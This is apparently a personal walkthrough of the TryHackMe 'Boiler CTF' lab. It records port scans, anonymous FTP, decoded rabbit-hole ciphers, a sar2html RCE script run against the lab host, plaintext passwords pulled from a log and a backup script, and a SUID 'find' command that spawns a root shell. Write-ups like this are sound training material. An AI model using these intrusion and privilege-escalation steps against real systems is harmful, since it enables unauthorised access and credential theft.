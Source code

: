```yaml
---
layout: post
title: Boiler CTF   
published: true
category: Lessons
system: Webmin
walkthrough-type: thm
source: https://tryhackme.com/room/boilerctf2
Description: Intermediate level CTF
tags: CTF, FTP, SSH, Webmin
---
```


* * * 

# Notes

```
nmap scan

PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 61
80/tcp    open  http             syn-ack ttl 61
10000/tcp open  snet-sensor-mgmt syn-ack ttl 61
55007/tcp open  unknown          syn-ack ttl 61


=============================

gobuster scan

robots.txt

User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

the ASCII goes to base which goes to a MD5? 99b0660cd95adea327c54182baa51584

which is the answer to the rabbit hole question...99b0660cd95adea327c54182baa51584:kidding   

the nmap scan top port result seems to be openSSH 55007/tcp open  unknown          syn-ack ttl 61

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ telnet 10.10.100.87 55007                    
Trying 10.10.100.87...
Connected to 10.10.100.87.
Escape character is '^]'.
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
```



# File extension after anon login

We can login to FTP anonymously, and get a note.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ cat .info.txt          
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```

ROT13 Cipher

# What is on the highest port?

ssh we found earliar

# What's running on port 10000?

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Neighbour]
└─$ nmap -sC -sV -Pn 10.10.189.181 -p10000
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-15 15:30 PST
Nmap scan report for 10.10.189.181
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-server-header: MiniServ/1.930
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

# Can you exploit the service running on that port? (yay/nay answer)

exploitdb doesn't seem to contain anything.

# What's CMS can you access? Keep enumerating, you'll know when you find it.

joomla

# The interesting file name in the folder?

during gobuster scan i found a folder `http://boiler-ctf.thm/joomla/_files/` inside is another cipher `VjJodmNITnBaU0JrWVdsemVRbz0K`. Which is twice base64 decoded to `whoopsie daisy`. another rabbit hole.

we do find a folder after adjusting the wordlist http://boiler-ctf.thm/joomla/_test which has a RCE in exploitdb.

executing the script

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Boiler-CTF]
└─$ python3 49344.py   
Enter The url => http://boiler-ctf.thm/joomla/_test/           
Command => ls
HPUX
Linux
SunOS
index.php
log.txt
sar2html
sarFILE

Command => cat log.txt
HPUX
Linux
SunOS
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

# Where was the other users pass stored(no extension, just the name)?

after logging into the ssh on the top port checking the backup.sh

```
$ cat backup.sh
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows

ssh $USER@$REMOTE mkdir $TARGET/$DATE


if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "## ## ## ## ## ## ## ## ## ## " >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done
     

else

    echo "Directory is not present" >> $LOG
    exit 0
fi
```

# user.txt



# What did you exploit to get the privileged user?

`find / -perm -u=s 2>/dev/null`

find has SUID set which means it doesnt drop elevated priviliges. We can use it to execure commands and spawn a root shell. `find . -exec /bin/sh -p \; -quit`

# root.txt

cat root.txt


also the user.txt is not user.txt its .secret...